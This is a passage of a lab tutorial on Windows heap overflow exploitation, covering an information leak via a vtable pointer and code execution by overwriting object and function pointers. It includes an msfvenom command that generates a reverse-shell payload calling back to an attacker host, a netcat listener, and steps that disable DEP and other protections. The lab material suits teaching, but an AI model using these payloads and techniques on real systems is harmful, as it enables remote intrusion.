Because the existence of a virtual function in the class of the object we are storing in the third heap chunk, the object pointer will be the address of a *Virtual Function Table* (vftable/vtable). 

We can then use this to calculate the Image Base with the following formula:
```
Image base = vtable address - a fixed offset.
```
* We need to find what the fixed offset value is. It just so happens that we need to know what the Image's base address is to calculate this as the *Virtual Function Table* offset is the difference between the constant location in `rdata` it is stored at and the Image base address.
* There are many ways to find this offset, one is to load the program in a disassembler and locate the vftable pointer in the rdata section, the second more straightforward method I will describe is using WinDBG.

### Final Exploitation Data Leak
1. Create the [Exploit1.cpp](./SourceCode/Exploit/exploit1.cpp) file using an editor like [Notepad++](https://notepad-plus-plus.org/) as shown below.

    

2. Compile the [Exploit1.cpp](./SourceCode/Exploit/exploit1.cpp) program using the [MSVC Compiler](https://learn.microsoft.com/en-us/cpp/build/reference/compiler-options?view=msvc-170) (You need to open the Developer Powershell) with the command shown below.
    ```
    $ cl  /GS- /Z7 .\E1.cpp
    ```
    * `cl`: The Visual Studio C/C++ Compiler
    * `/GS-`: Compile with Buffer Overflow Protections disabled
    * `/Z7`: Compile with Debugging information, this is useful in the event you need to debug the program!
    * This will compiled and link the `E1.cpp` file and produce an executable `E1.exe`.
3. Run the E1 program and observe the output, notice that we have overflowed the size and gotten a value for the Image's Base Address, though this may not be correct!

    

4. Launch WinDBG and attach the Exploit 1 process to it.
   1. Open the start Menu and find WinDBG

        

   2. Click File in the top left.

        

   3. Select Attach to a Running Process and select the Exploit Process.

        

5. Open the Command Line of WinDBG
   1. Click View and select *Command*.

         

   2. Use the command `lm` to list the modules and their starting address.

         

         * Notice that the Base address of the Image is in this case `0x00270000` and the Address of the VFTable is `0x002886e8` per the heap overflow program. This means the offset will be `0x002886e8 - 0x00270000`. This can also be done in IDA Free/Pro, Gihdra or any other disassembler if you can find the vftable entry in the rdata section. 

6. Modify the exploit with the updated offset and run it again, now you should see the correct image base address. This constant offset should not change unless you recompile the executable.

    

    * *Note*: It may be the case you have to run the program multiple times to get the correct Heap allocations. It should be noted that renaming or moving the file to another folder appears to force a change in the Base Address (Without changing the vtable offset) and this appears to make the exploit more reliable when running it multiple times.   

7. If you have WinDGB open you can view and confirm that the overflow occurred

    

## Example Program: Exploit 2, Shell execution (Overwrite object pointer)
This exploit is created based on “Arbitrary Code Execution” exploit as discussed in [1].

In this exploit, our evil string is copied to chunk1 (*allocation[5]* in the following code) in order to overflow chunk2 (*allocation[6]*) which contains a vector of object pointers (*v1*). The last 4 bytes of *evilString* will overwrite the first object pointer (*v1[0]*).

When we make a call to a virtual function Instead directly calling them, objects that contain virtual function methods will access them through the **vtable**, which is a table of virtual function pointers. For an object that contains virtual functions, the address of the **vtable** is stored in the first 4 or 8 bytes of the object, in other words, the object pointer points to the address of the vtable. The structures of both the object and **vtable** are presented as follow:


* We can see from the image above that the object loaded into memory will contain a pointer to a *vtable*, which is then offset to get the correct function to call.
* We then use the entry in the *vtable* to call the correct code in memory
* This means the first 4 bytes in a 32 bit program, or the first 8 bytes in a 64 bit program of the object will be a pointer to the *vtable* used to determine what code will be executed when a virtual function is called.

Below we show an example of the assembly code of the call made with the line `v1.at(0)->virtualFunction();` in [exploit2-1.cpp](./SourceCode/Exploit/exploit2-1.cpp) and [exploit2-2.cpp](./SourceCode/Exploit/exploit2-1.cpp) when it has been compiled:
```s
push 0
lea ecx, [v1]
call std::vector, <int, std::allocator<int>>::_Buy_raw
move eax, dword ptr [eax]               ; let eax = pointer to the object
mov dword ptr [ebp-570h], eax
mov ecx, dword ptr [ebp-570h]           ; let ecx = eax = pointer to the object
mov edx, dword ptr [ecx]                ; let edx = the first dword of object, namely, the pointer to vtable
mov esi, esp
mov ecx, dword ptr [ebp-570h]
mov eax, dword ptr [edx]                ; let eax = the first dword of vtable, namely, the first virtual function pointer
call eax                                ; call the first virtual function
```
* *Note*: The constant offsets such as `[ebp-570h]` used when loading values in relation to the base pointer vary depending on when you have compiled the program and any modifications made to it, so do not be too concerned by them.

The main commands to be aware of are the following:
1) `move eax, dword ptr [eax]`: After the call to `std::vector, <int, std::allocator<int>>::_Buy_raw` the managed array's address is stored in `eax`, this command will store the address of the first object into the `eax` register.
2) `mov ecx, dword ptr [ebp-570h]`:  This stores the address of the object (Previously moved to `[ebp-570h]`) into `ecx`.
3) `mov edx, dword ptr [ecx]`: This extracts the pointer to the vtable (Located in the first 4 bytes of the object) into `edx`.
4) `mov eax, dword ptr [edx]`: This extracts the address of the first function pointer located in the vtable, this is done since we are using the first and only virtual function in the object we created.
5) `call eax`: Call the virtual function as the address is stored in eax


To mimic this relationship, we will use three pointers labeled `veax`, `vedx`, and `vecx`. The `veax` pointer will contain the address of the code we would like to execute, the `vedx` pointer contains the address of the `veax` entry (VTable Entry), and the `vecx` pointer contains the address of the `vedx` entry (VTable Pointer stored in the object). Below is a simple diagram to show the relationship:


* This has the following flow, ```vecx -> vedx -> veax-> Target Code Execution```

When overflowing the first object pointer in chunk2, vecx, which contains the address of vedx, will override the object pointer. Accordingly in the assembly code, we will have ecx = vecx, and as long as the other values have been set properly we will achieve arbitrary code execution. 

### Exploitation Part 1
1. Create the [Exploit2-1.cpp](./SourceCode/Exploit/exploit2-1.cpp) file using an editor like [Notepad++](https://notepad-plus-plus.org/) as shown below.

    

2. Compile [Exploit2-1.cpp](./SourceCode/Exploit/exploit2-1.cpp) with the following command:
    ```
    $ cl  /GS- /Z7 .\E2-1.cpp
    ```
    * `cl`: The Visual Studio C/C++ Compiler.
    * `/GS-`: Compile with Buffer Overflow Protections disabled.
    * `/Z7`: Compile with Debugging information, this is useful in the event you need to debug the program!
    * This will compiled and link the `E2.cpp` file and produce an executable `E2.exe`.
3. Run the resulting executable file, we should see it pauses execution before we attempt to execute the Virtual Function we overflowed.

    

4. We can open WinDBG and attach it to the running process.
   1. Open WinDBG as shown below, if you are running the process as a *Administrator* you will need to launch WinDBG as an *Administrator*

        

   2. Open the File tab, select *Attach to Process* and the currently executing process.

        

   3. If we compiled the executable with debugging information (The `/Z7` Flag) we can also attach the source file from the File Menu with *Open Source File* as shown below.

        

   4. We can now set a breakpoint such that it stops executing just before the virtual function call executes.

        

   5. Click Go and then in the terminal unpause the application by pressing any button (I use *Enter*).

        

        * Notice that the command Window says `*BUSY* Debugee is running...`.

   6. We can see that the execution has stopped when we have set the breakpoint.

        

   7. We can also look at the current code that is being executed, Select View -> Disassembly, we can see some code that looks familiar!

        

5. Now we can examine the current state of the process in memory.
   1. Select the View Tab and Memory Option.

        

   2. Using the Output from the program locate the Heap chunk to examine and enter it into the *Address* bar of the memory view.

        

   3. Once you hit enter, and expand the view a little more we should be able to see the evil string and the address of the emulated VTable Entry.

        

6. If you set breakpoints Hit Go until the code reaches the final pause point and then in the terminal observe the output!

    

      * Notice the output `"Hi~ I'm Evil! * o *"` , the evil function was never called in the original function! This means we can use this as a means to execute arbitrary shellcode.

### Exploitation Part 2
Before executing this we will need to ensure DEP is not enabled on the Windows system. 
1. Open a CMD prompt as an administrator

2. Run the following command and observe the output, if the output is a `1` or `3` then DEP is enabled and we should disable it on the system to prevent future issues.
    ```
    $  wmic OS Get DataExecutionPrevention_SupportPolicy
    ```
3. Restart your system if you modify the DEP settings.

Now we can start observing the malicious program as it executes!
1. Create the [Exploit2-2.cpp](./SourceCode/Exploit/exploit2-2.cpp) file using an editor like [Notepad++](https://notepad-plus-plus.org/) as shown below.

    

2. Generate a reverse shell for windows using Metasploit on the Kali Linux Machine.
    ```
    $ msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.0.2.7 LPORT=8080 EXITFUNC=process -f c -v SHELL
    ```
    * `msfvenom`: The MSFVenom command used to generate shellcode.
    * `-a x86`: Generate the shellcode for a x86 32 bit architecture.
    * `--platform Windows`: Generate the shellcode for a Windows machine.
    * `-p `: Payload we are generating shellcode for.
        * `windows/shell_reverse_tcp`: Reverse TCP payload for Windows
        * `LHOST=10.0.2.7`: The remote listening host's IP, in this case our Kali machine's IP 10.0.2.7
        * `LPORT=8080`: The port on the remote listening host's traffic should be directed to in this case port 8080
        * `EXITFUNC=process`: Use the process exit function
    * `-f c`: Output in a format useable in C code.
    * `-v SHELL`: Specify SHELL as the variable name.
3. Compile [Exploit2-2.cpp](./SourceCode/Exploit/exploit2-2.cpp) with the following command:
    ```
    $ cl  /GS- /Z7 /c .\E2-2.cpp
    ```
    * `cl`: The Visual Studio C/C++ Compiler
    * `/GS-`: Compile with Buffer Overflow Protections disabled
    * `/Z7`: Compile with Debugging information, this is useful in the event you need to debug the program!
    * `/c`: Compile without linking
    * This will compiled and link the `E2.cpp` file and produce an executable `E2.exe`.

4. Link [Exploit2-2.cpp](./SourceCode/Exploit/exploit2-2.cpp) with the following command
    ```
    $ link  /NXCOMPAT:NO .\E2-2.obj
    ```
    * `link`: The Visual Studio C/C++ Linker
    * `/NXCOMPAT:NO`: Disable DEP

5. Run the resulting executable file, we should see it pauses execution before we attempt to execute the Virtual Function we overflowed. 

    

5. We can open WinDBG and attach it to the running process.
   1. Open WinDBG as shown below, if you are running the process as a *Administrator* you will need to launch WinDBG as an *Administrator*.

        

   2. Open the File tab, select *Attach to Process* and the currently executing process.

        

   3. If we compiled the executable with debugging information (The `/Z7` Flag) we can also attach the source file from the File Menu with *Open Source File* as shown below.

        

   4. We can now set a breakpoint such that it stops executing just before the virtual function call executes.

        

   5. Click Go and then in the terminal unpause the application by pressing any button (I use *Enter*).

        

        * Notice that the command Window says `*BUSY* Debugee is running...`

   6. We can see that the execution has stopped when we have set the breakpoint.

        

   7. We can also look at the current code that is being executed, Select View -> Disassembly, we can see some code that looks familiar!

        

6. Now we can examine the current state of the process in memory.
   1. Select the View Tab and Memory Option.

        

   2. Using the Output from the program locate the Heap chunk to examine and enter it into the *Address* bar of the memory view.

        

7. If you set breakpoints Hit Go until the code reaches the final pause point and then in the terminal observe the output, notice the program did not print the evil string as happened before if DEP is not enabled we should generate a new Reverse Shell!

    

8. Launch a [netcat](https://linux.die.net/man/1/nc) listener on our *Kali Linux* machine listening on port 8080, so we can receive the outbound connection from the target.
	```sh
	$ nc -l -v -p 8080
	```
	* `nc`: The netcat command
  	* `-l`: Set netcat to listen for connections.
  	* `v`: Verbose output.
  	* `p`: Set to listen on a port, in this case port 8080.

> [!NOTE]
> If you do not disable DEP protections when compiling the program you will notice it crashes when attempting to jump into the shellcode that has been loaded into the data section of the code in the original program.
> 
>   
> 
> Due to the addition of the following code in the program we bypass the issues that are caused when DEP is enabled:
> ```c
> 	// Mark the shell code as executable 
> 	DWORD oldProtect;
> 	VirtualProtect(SHELL, sizeof(SHELL), PAGE_EXECUTE_READWRITE, &oldProtect);
> ```
> * With this we modify the region the shellcode is located in as executable
## Example Program: Exploit 3, Shell execution (Overwrite function pointer)
This exploit is based on the previously discussed exploit, however, this time we place function pointers inside of the vectors instead of object pointers. This allows for a more straightforward exploit as we can simply overflow the function pointer directly with the address of the code we would like to execute. Below is a diagram showing the flow of our exploit:


Instead of the Virtual Function call facilitated with the vtable entry, we will perform a direct function call after extracting the function address from the vector, below is an example of the code generated when compiling the line.

```s
mov     eax, dword ptr [ebp-2Ch]
push    eax
push    0
lea     ecx, [ebp-38h]
call    E3_1!@ILT+6660(??A?$vector@P6AXH@ZV?$allocator@P6AXH@Z@std@@@std@@QAEAAP6AXH@ZI@Z) ; We extract the address of the vector into eax
mov     ecx, dword ptr [eax] ; Extract the first function pointer
call    ecx                  ; Call the extracted function pointer
```
* The main reason we include this is to show the difference between the Virtual Function exploit and this new one!

### Exploitation Part 1
1. Create the [Exploit3-1.cpp](./SourceCode/Exploit/exploit3-1.cpp) file using an editor like [Notepad++](https://notepad-plus-plus.org/) as shown below.

    

2. Compile [Exploit3-1.cpp](./SourceCode/Exploit/exploit3-1.cpp) with the following command:
    ```
    $ cl  /GS- /Z7 .\E3-1.cpp
    ```
    * `cl`: The Visual Studio C/C++ Compiler.
    * `/GS-`: Compile with Buffer Overflow Protections disabled.
    * `/Z7`: Compile with Debugging information, this is useful in the event you need to debug the program!
    * This will compiled and link the `E2.cpp` file and produce an executable `E2.exe`.
3. Run the resulting executable file, we should see it pauses execution before we attempt to execute the function pointer we overflowed.

    

4. We can open WinDBG and attach it to the running process.
   1. Open WinDBG as shown below, if you are running the process as a *Administrator* you will need to launch WinDBG as an *Administrator*.

        

   2. Open the File tab, select *Attach to Process* and the currently executing process.

        

   3. If we compiled the executable with debugging information (The `/Z7` Flag) we can also attach the source file from the File Menu with *Open Source File* as shown below.

        

   4. We can now set a breakpoint such that it stops executing just before the function pointer is called and executes.

        

   5. Click Go and then in the terminal unpause the application by pressing any button (I use *Enter*).

        

        * Notice that the command Window says `*BUSY* Debugee is running...`.

   6. We can see that the execution has stopped when we have set the breakpoint.

        

   7. We can also look at the current code that is being executed, Select View -> Disassembly, we can see this code is different from the Virtual Function code from the previous exploit!

        

5. Now we can examine the current state of the process in memory.
   1. Select the View Tab and Memory Option.

        

   2. Using the Output from the program locate the Heap chunk to examine and enter it into the *Address* bar of the memory view.

        

6. If you set breakpoints Hit Go until the code reaches the final pause point and then in the terminal observe the output!

    

    * Notice the output `"Hi~ I'm Evil! * o *"` , the evil function was never called in the original function! This means we can use this as a means to execute arbitrary shellcode.

### Exploitation Part 2
Before executing this we will need to ensure DEP is not enabled on the Windows system.
1. Open a CMD prompt as an administrator

2. Run the following command and observe the output, if the output is a `1` or `3` then DEP is enabled and we should disable it on the system to prevent future issues.
    ```
    $  wmic OS Get DataExecutionPrevention_SupportPolicy
    ```
3. Restart your system.

Now we can start observing the malicious program as it executes!
1. Create the [Exploit3-2.cpp](./SourceCode/Exploit/exploit3-2.cpp) file using an editor like [Notepad++](https://notepad-plus-plus.org/) as shown below.

    

2. Generate a reverse shell for windows using Metasploit on the Kali Linux Machine.
    ```
    $ msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.0.2.7 LPORT=8080 EXITFUNC=process -f c -v SHELL
    ```
    * `msfvenom`: The MSFVenom command used to generate shellcode.
    * `-a x86`: Generate the shellcode for a x86 32 bit architecture.
    * `--platform Windows`: Generate the shellcode for a Windows machine.
    * `-p `: Payload we are generating shellcode for.
        * `windows/shell_reverse_tcp`: Reverse TCP payload for Windows
        * `LHOST=10.0.2.7`: The remote listening host's IP, in this case our Kali machine's IP 10.0.2.7
        * `LPORT=8080`: The port on the remote listening host's traffic should be directed to in this case port 8080
        * `EXITFUNC=process`: Use the process exit function
    * `-f c`: Output in a format useable in C code.
    * `-v SHELL`: Specify SHELL as the variable name.
3. Compile [Exploit2-2.cpp](./SourceCode/Exploit/exploit2-2.cpp) with the following command:
    ```
    $ cl  /GS- /Z7 /c .\E3-2.cpp
    ```
    * `cl`: The Visual Studio C/C++ Compiler.
    * `/GS-`: Compile with Buffer Overflow Protections disabled.
    * `/Z7`: Compile with Debugging information, this is useful in the event you need to debug the program!
    * `/c`: Compile without linking.
    * This will compiled and link the `E2.cpp` file and produce an executable `E2.exe`.

4. Link [Exploit3-2.cpp](./SourceCode/Exploit/exploit3-2.cpp) with the following command.
    ```
    $ link  /NXCOMPAT:NO .\E3-2.obj
    ```
    * `link`: The Visual Studio C/C++ Linker.
    * `/NXCOMPAT:NO`: Disable DEP.

5. Run the resulting executable file, we should see it pauses execution before we attempt to execute the function pointer we overflowed.

    

6. We can open WinDBG and attach it to the running process.
   1. Open WinDBG as shown below, if you are running the process as a *Administrator* you will need to launch WinDBG as an *Administrator*.

        

   2. Open the File tab, select *Attach to Process* and the currently executing process.

        

   3. If we compiled the executable with debugging information (The `/Z7` Flag) we can also attach the source file from the File Menu with *Open Source File* as shown below.

        

   4. We can now set a breakpoint such that it stops executing just before the virtual function call executes.

        

   5. Click Go and then in the terminal unpause the application by pressing any button (I use *Enter*).

        

        * Notice that the command Window says `*BUSY* Debugee is running...`.

   6. We can see that the execution has stopped when we have set the breakpoint.

        

   7. We can also look at the current code that is being executed, Select View -> Disassembly, we can see some code that looks familiar!

        

7. Now we can examine the current state of the process in memory.
   1. Select the View Tab and Memory Option.

        

   2. Using the Output from the program locate the Heap chunk to examine and enter it into the *Address* bar of the memory view.

        

8. If you set breakpoints Hit Go until the code reaches the final pause point and then in the terminal observe the output, notice the program did not print the evil string as happened before if DEP is not enabled we should generate a new Reverse Shell!

    

9. Launch a [netcat](https://linux.die.net/man/1/nc) listener on our *Kali Linux* machine listening on port 8080, so we can receive the outbound connection from the target.
	```sh
	$ nc -l -v -p 8080
	```
	* `nc`: The netcat command.
  	* `-l`: Set netcat to listen for connections.
  	* `v`: Verbose output.
  	* `p`: Set to listen on a port, in this case port 8080.

> [!NOTE]
> If you do not disable DEP protections when compiling the program you will notice it crashes when attempting to jump into the shellcode that has been loaded into the data section of the code in the original program.
> 
>   
> 
> Due to the addition of the following code in the program we bypass the issues that are caused when DEP is enabled:
> ```c
> 	// Mark the shell code as executable 
> 	DWORD oldProtect;
> 	VirtualProtect(SHELL, sizeof(SHELL), PAGE_EXECUTE_READWRITE, &oldProtect);
> ```
> * With this we modify the region the shellcode is located in as executable

# Test code
- The following code can be compiled with Visual Studio 2019. You can use the a VS 2019 project created in this [directory](./SourceCode/VS2019Project) and copy the code from the following .cpp file to [heap_main.cpp](SourceCode/VS2019Project/heap_main.cpp).

- If you want to create your own VS project, you need to disable some security related linking flag to ensure exploit2 and exploit3 can succeed. (Project in [SourceCode/VS2019Project](SourceCode/VS2019Project) has been set already.) This can be done in VS IDE:

  Project -> Properties -> Linker -> Set DEP and Randomized Base Address to **No** -> Apply

- The SHELLs in exploit2.cpp and exploit3.cpp are reverse shells.

1. [exploit1.cpp](SourceCode/exploit1.py): Information leak.
2. [exploit2-1.cpp](SourceCode/exploit2-1.py): Code execution I, modify flow of control.
3. [exploit2-2.cpp](SourceCode/exploit2-2.py): Code execution I, Execute Shell Code. 
4. [exploit3.cpp](SourceCode/exploit3-1.py) : Code execution II, modify flow of control.
5. [exploit3.cpp](SourceCode/exploit3-2.py): Code execution II, Execute Shell Code. 

# References
[1] [Heap Overflow Exploitation on Windows 10 Explained](https://www.rapid7.com/blog/post/2019/06/12/heap-overflow-exploitation-on-windows-10-explained/)

[2] [Arm Heap Exploitation](https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/)

[3] [NT heap](https://www.slideshare.net/AngelBoy1/windows-10-nt-heap-exploitation-english-version)

[4] [Segment heap](https://www.blackhat.com/docs/us-16/materials/us-16-Yason-Windows-10-Segment-Heap-Internals-wp.pdf)

[5] [Understanding The LFH](https://www.illmatics.com/Understanding_the_LFH.pdf)


[[6] Windows 10 x86/wow64 Userland heap](https://www.corelan.be/index.php/2016/07/05/windows-10-x86wow64-userland-heap/)

<!-- https://www.illmatics.com/Understanding_the_LFH.pdf -->


<!--
WinDBG
1. https://learn.microsoft.com/en-us/windows-hardware/drivers/debuggercmds/-heap
2. https://samscode.blogspot.com/2012/01/looking-at-heap-allocations-with-windbg.html
3. https://theartofdev.com/windbg-cheat-sheet/
4. https://learn.microsoft.com/en-us/windows-hardware/drivers/debuggercmds/-address
5. https://learn.microsoft.com/en-us/windows-hardware/drivers/debuggercmds/-vprot


https://www.corelan.be/index.php/2016/07/05/windows-10-x86wow64-userland-heap/ // good for commands in WinDBG and Structures
https://brant-ruan.github.io/images/0day/54473267732EFADF62E7A8E13D2F0F7F.pdf // Not so useful


https://learn.microsoft.com/en-us/windows/win32/memory/reserving-and-committing-memory // May be useful in explaining Reserved vs Committed memory.
-->